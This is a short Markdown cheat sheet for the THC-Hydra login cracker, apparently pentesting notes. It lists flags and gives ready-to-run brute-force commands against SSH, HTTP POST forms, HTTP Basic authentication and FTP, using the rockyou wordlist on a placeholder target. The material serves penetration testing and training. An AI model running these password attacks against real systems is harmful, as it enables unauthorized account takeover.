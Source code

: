 ```yaml
---
title: HYDRA
summary: A very fast and flexible login cracker.
description: A very fast and flexible login cracker.
---
```


**[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)**

## HYDRA Basis



## HYDRA Flags


 > 
 > **<font color=red>-V</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-vV</font>**</br>
 > Very Verbose.

 > 
 > **<font color=red>-L</font> myUsersFile**</br>
 > Specify usernames file list.
 > 
 > **<font color=red>-l </font> myUser**</br>
 > Specify username.

 > 
 > **<font color=red>-P </font>myPassFile**</br>
 > Specify password file list.
 > 
 > **<font color=red>-p</font> myPass**</br>
 > Specify password.

 > 
 > **<font color=red>-s</font>**</br>
 > Specify port.
 > 
 > **<font color=red>-t</font> 4**</br>
 > Number of parallel connections per target.

## SSH


 > 
 > **<font color=red>hydra -L</font> myUsersFile <font color=red>-P</font> myPassFile \[TARGET_IP\]<font color=red> ssh</font>**</br>
 > Brute Force SSH.

## HTTP POST


 > 
 > **<font color=red>hydra -vV -L</font> myUsersFile.txt  <font color=red>-P</font> /usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>http-post-form ‘</font>/path/to/form.php<font color=red>:</font>username<font color=red>=^USER^&</font>password<font color=red>=^PASS^&</font>login=Login:<font color=red>F=</font>ChainNotOK<font color=red>’</font>**</br>
 > Brute Force HTTP POST form with valid username.

## HTTP Basic Access Auth


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P</font> /usr/share/wordlists/rockyou.txt \[TARGET_IP\]<font color=red> http-get</font> /path/**</br>
 > Brute Force HTTP Basic Access Authentication.

## FTP


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P </font>/usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>ftp</font>**</br>
 > Brute Force FTP Login.
